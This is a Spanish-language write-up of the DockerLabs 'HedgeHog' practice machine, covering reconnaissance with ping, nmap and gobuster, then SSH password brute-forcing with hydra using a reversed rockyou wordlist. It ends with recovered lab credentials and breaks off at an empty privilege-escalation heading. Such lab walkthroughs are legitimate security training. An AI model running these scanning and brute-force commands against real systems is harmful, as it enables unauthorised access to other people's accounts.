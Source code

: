 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/ic9VwYZJ#Hr1BjW2axoSRmUYbxhldmTNiYtBV9TQU83JDJPpoYww
Nombre: HedgeHog
Dificultad: muy fácil
Creador: AnkbNikas

Tools:
[[Docker]]
[[Ping]]
[[NMAP]]
[[Gobuster]]



# Despliegue:
```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh hedgehog.tar
```

![[Dockerlabs - HedgeHog - Reconocimiento.png]]
# Reconocimiento

## Ping:

```sh fold:"Deploy injection machine"
ping -c1 172.17.0.2
```

![[Dockerlabs - JedgeHog - Ping.png]]

TRL: 64 --> Linux

## lanzamos un nmap:

```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - HedgeHog - nmap result.png]]

Puertos abiertos
22 --> SSH
80 --> HHP

entramos en el navegador con el puerto 80 y vemos si encontramos alguna web interesante:
![[Dockerlabs -HedgeHog - WebSite.png]]

revisamos el código fuente por si encontramos algo:
![[Dockerlabs - hedgeHog - Web codigo fuente.png]]
Pero no damos con nada interesante

Intentamos sacar rutas con gobuster
```sh fold:"Reconocimiento con gobuster"
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 --add-slash
```

![[Dockerlabs - HedgeHog - Gobuster result.png]]
# Explotación / intrusión
lanzamos un hydra con el usuario que vimos en la web: tails
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog -Rockyou normal.png]]
pero no encontramos nada, al ver el nombre del usuario tails: se nos ocurre invertir el rockyou
comandos para invertir el rockyou:

```sh fold:"Invertir el rockyou"
# invertimos
tac rockyou.txt >> rockyouinvertido.txt
# eliminamos los espacios
sed -i 's/ //g' rockyouinvertido.txt 
```

Volvemos a lanzar hydra con el rockyou invertido:
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyouinvertido.txt ssh://172.17.0.2
```


Datos obtenidos:
Usuario: tails
Password: 3117548331
# Escalada de privilegios